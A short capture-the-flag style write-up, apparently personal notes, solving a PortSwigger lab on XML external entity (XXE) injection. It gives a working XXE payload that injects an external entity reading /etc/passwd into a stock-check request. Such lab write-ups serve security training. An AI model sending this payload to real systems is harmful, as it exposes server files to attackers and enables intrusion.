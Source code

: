 
# Exploiting XXE using external entities to retrieve files

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.

---------------------------------------------

References: 

- https://portswigger.net/web-security/xxe



![img](images/Exploiting%20XXE%20using%20external%20entities%20to%20retrieve%20files/1.png)

---------------------------------------------


The request to check the stcok of a product uses a XML object:



![img](images/Exploiting%20XXE%20using%20external%20entities%20to%20retrieve%20files/2.png)


Tha payload used is:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```



![img](images/Exploiting%20XXE%20using%20external%20entities%20to%20retrieve%20files/3.png)
